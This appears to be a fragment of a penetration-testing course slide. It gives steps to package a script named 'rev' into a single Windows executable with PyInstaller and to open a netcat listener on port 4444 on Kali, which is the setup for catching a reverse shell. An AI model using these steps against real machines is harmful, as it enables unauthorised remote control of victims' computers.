

# INSTRUCTIONS
On Windows, in pip-Win:
venv -c -i pyi-env-name
pyinstaller --onefile rev
On Kali
nc –lp 4444